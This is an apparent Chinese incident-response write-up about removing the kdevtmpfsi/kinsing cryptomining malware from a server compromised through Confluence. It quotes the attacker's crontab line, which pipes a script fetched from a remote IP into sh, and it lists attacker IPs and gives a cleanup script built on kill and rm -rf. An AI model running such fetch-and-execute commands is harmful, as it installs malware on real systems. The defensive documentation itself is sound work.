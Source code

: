 ```yaml
---
title: 利用 Confluence 漏洞被挂挖矿木马 kdevtmpfsi 后处理方案
date: 2021-09-03
---
```



## 现象

服务器的 CPU 突然被异常进程 `kdevtmpfsi` 占满

``` bash
  PID USER      PR  NI    VIRT    RES    SHR S  %CPU %MEM     TIME+ COMMAND
10346 conflue+  20   0 3481244   2.3g    272 S  1196 19.9   6290:48 kdevtmpfsi
```

## 检查

- 查看异常进程

``` bash
# ps -ef | grep kdevtmpfsi
root      7770 14501  0 23:35 pts/1    00:00:00 grep --color=auto kdevtmpfsi
conflue+ 10346     1 99 13:03 ?        5-05:38:24 /tmp/kdevtmpfsi

# systemctl status 10346
● session-364.scope - Session 364 of user root
   Loaded: loaded (/run/systemd/system/session-364.scope; static; vendor preset: disabled)
  Drop-In: /run/systemd/system/session-364.scope.d
           └─50-After-systemd-logind\x2eservice.conf, 50-After-systemd-user-sessions\x2eservice.conf, 50-Description.conf, 50-SendSIGHUP.conf, 50-Slice.conf, 50-TasksMax.conf
   Active: active (abandoned) since Tue 2021-01-26 02:42:54 EST; 7 months 5 days ago
   CGroup: /user.slice/user-0.slice/session-364.scope
           ├─ 9963 /tmp/kinsing         # Confluence 关联异常进程
           ├─10346 /tmp/kdevtmpfsi      # Confluence 关联异常进程
           ├─14586 /opt/atlassian/confluence/jre//bin/java ...
           └─14851 /opt/atlassian/confluence/jre/bin/java ...

# ll /tmp
...
-rwxr-x---. 1 confluence confluence  3930448 Sep  2 01:48 kdevtmpfsi      # 异常文件 
-rwxrwxrwx. 1 confluence confluence 14643200 Sep  2 01:46 kinsing         # 异常文件
-rwxrwxrwx. 1 confluence confluence    26800 Sep  1 13:02 libsystem.so    # 异常文件
-rw-------. 1 confluence confluence        0 Sep  1 13:02 linux.lock      # 异常文件
...
```

- 异常进程访问了异常/国外 IP

``` bash
# netstat –natp
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
...
tcp        0      0 xx.xx.xx.xx:41302       95.181.179.88:80        ESTABLISHED 10346/kdevtmpfsi   # 95.181.179.88 为国外 IP
...
```

- 异常定时任务

``` bash
# crontab -l -u confluence
* * * * * curl http://195.3.146.118/unk.sh | sh > /dev/null 2>&1
```


## 处理

- 删除异常定时任务
- 删除异常进程
- 设置文件夹访问权限

上述操作可参考以下脚本：

``` bash
crontab -r -u confluence
ps -aux | grep kinsing |grep -v grep |awk '{print $2}'
ps -aux | grep kdevtmpfsi |grep -v grep |awk '{print $2}'
ps -aux | grep kinsing |grep -v grep |awk '{print $11}'
ps -aux | grep kdevtmpfsi |grep -v grep |awk '{print $11}'
ps -aux | grep kinsing |grep -v grep |awk  '{print "rm -rf " $11}' |sh
ps -aux | grep kdevtmpfsi |grep -v grep |awk  '{print "rm -rf " $11}' |sh
ps -aux | grep kinsing |grep -v grep |awk  '{print "kill -9 " $2}' |sh
ps -aux | grep kdevtmpfsi |grep -v grep |awk  '{print "kill -9 " $2}' |sh

rm -rf /var/tmp/kinsing
rm -rf /tmp/libsystem.so
rm -rf /tmp/linux.lock

chmod -R 700 /tmp
chmod -R 700 /var/tmp

find / -name kdevtmpfsi
find / -name kinsing
```

- 禁止服务器访问异常 IP，参考：

```
195.3.146.118
142.44.191.122
185.92.74.42
217.12.221.244
93.189.43.3
185.154.53.140
```

- 关闭 Confluence 外网访问


## 参考

https://www.jianshu.com/p/9699251ad1d7

http://www.pangxieke.com/linux/virus-of-kdevtmpfsi.html

https://paper.seebug.org/884/

https://www.cnblogs.com/zhangjiahao/p/12634930.html

https://www.jianshu.com/p/60bbe86a7b33

https://guanjia.qq.com/news/n3/2581.html

https://www.cnblogs.com/hack404/p/11464890.html
